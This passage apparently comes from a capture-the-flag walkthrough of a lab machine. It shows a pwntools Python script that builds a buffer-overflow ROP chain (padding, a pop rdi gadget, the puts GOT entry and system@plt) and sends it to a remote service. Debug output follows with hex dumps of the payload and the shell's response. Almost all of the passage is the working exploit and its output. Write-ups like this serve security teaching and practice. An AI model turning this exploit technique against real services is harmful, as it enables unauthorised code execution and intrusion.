 This all builds together to look like:

```

#!/usr/bin/env python

from pwn import *

context(os="linux", arch="amd64")
context(log_level='DEBUG')

junk = "A"*120

got_puts = p64(0x404018)
plt_system = p64(0x401040)
pop_rdi  = p64(0x40120b)
main     = p64(0x40115f)
payload = junk + pop_rdi + got_puts + plt_system + main

p = remote("10.10.10.147", 1337)
p.recvline()
p.sendline(payload)
p.recvline()

```

When I run it, I get:

```

root@kali# ./pwn_safe-m1_stg1.py 
[+] Opening connection to 10.10.10.147 on port 1337: Done
[DEBUG] Received 0x3e bytes:
    ' 15:12:49 up 17:00,  0 users,  load average: 0.00, 0.00, 0.00\n'
[DEBUG] Sent 0x99 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  0b 12 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000080  18 40 40 00  00 00 00 00  40 10 40 00  00 00 00 00  │·@@·│····│@·@·│····│
    00000090  5f 11 40 00  00 00 00 00  0a                        │_·@·│····│·│
    00000099
[DEBUG] Received 0x7 bytes:
    'sh: 1: '
[DEBUG] Received 0x50 bytes:
    00000000  90 ff 80 65  21 7f 3a 20  6e 6f 74 20  66 6f 75 6e  │···e│!·: │not │foun│
    00000010  64 0a 20 31  35 3a 31 32  3a 34 39 20  75 70 20 31  │d· 1│5:12│:49 │up 1│
    00000020  37 3a 30 30  2c 20 20 30  20 75 73 65  72 73 2c 20  │7:00│,  0│ use│rs, │
    00000030  20 6c 6f 61  64 20 61 76  65 72 61 67  65 3a 20 30  │ loa│d av│erag│e: 0│
    00000040  2e 30 30 2c  20 30 2e 30  30 2c 20 30  2e 30 30 0a  │.00,│ 0.0│0, 0│.00·│
    00000050
[*] Closed connection to 10.10.10.147 port 1337

```
